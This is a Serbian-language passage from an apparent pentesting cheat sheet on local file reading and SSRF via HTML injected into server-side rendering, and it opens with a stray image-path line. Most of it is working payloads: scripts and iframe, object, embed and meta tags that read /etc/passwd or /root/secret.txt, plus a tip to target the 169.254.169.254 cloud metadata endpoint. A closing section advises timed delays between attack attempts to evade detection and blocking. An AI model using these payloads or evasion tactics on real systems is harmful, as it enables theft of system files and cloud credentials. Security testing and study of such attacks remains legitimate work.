 ### Čitanje lokalne datoteke / SSRF

{% hint style="warning" %}
Promenite `file:///etc/passwd` u `http://169.254.169.254/latest/user-data` na primer da **pokušate da pristupite spoljnoj veb stranici (SSRF)**.

Ako je SSRF dozvoljen, ali **ne možete da pristupite** zanimljivom domenu ili IP adresi, [proverite ovu stranicu za potencijalne zaobilaženja](../ssrf-server-side-request-forgery/url-format-bypass.md).
{% endhint %}

```markup
<script>
x=new XMLHttpRequest;
x.onload=function(){document.write(btoa(this.responseText))};
x.open("GET","file:///etc/passwd");x.send();
</script>
```

```markup
<script>
xhzeem = new XMLHttpRequest();
xhzeem.onload = function(){document.write(this.responseText);}
xhzeem.onerror = function(){document.write('failed!')}
xhzeem.open("GET","file:///etc/passwd");
xhzeem.send();
</script>
```

```markup
<iframe src=file:///etc/passwd></iframe>
<img src="xasdasdasd" onerror="document.write('<iframe src=file:///etc/passwd></iframe>')"/>
<link rel=attachment href="file:///root/secret.txt">
<object data="file:///etc/passwd">
<portal src="file:///etc/passwd" id=portal>
<embed src="file:///etc/passwd>" width="400" height="400">
<style><iframe src="file:///etc/passwd">
<img src='x' onerror='document.write('<iframe src=file:///etc/passwd></iframe>')'/>&text=&width=500&height=500
<meta http-equiv="refresh" content="0;url=file:///etc/passwd" />
```

```markup
<annotation file="/etc/passwd" content="/etc/passwd" icon="Graph" title="Attached File: /etc/passwd" pos-x="195" />
```

### Kašnjenje robota

U nekim situacijama, prilikom izvođenja napada, može biti korisno dodati kašnjenje između svake iteracije kako bi se izbeglo otkrivanje i sprečilo blokiranje od strane ciljnog servera. Ovo se naziva "bot delay" ili kašnjenje robota.

Da biste implementirali kašnjenje robota, možete koristiti funkciju `sleep()` ili slične metode u programskom jeziku koji koristite za izvršavanje napada. Ova funkcija će privremeno zaustaviti izvršavanje programa na određeno vreme pre nego što nastavi sa sledećom iteracijom.

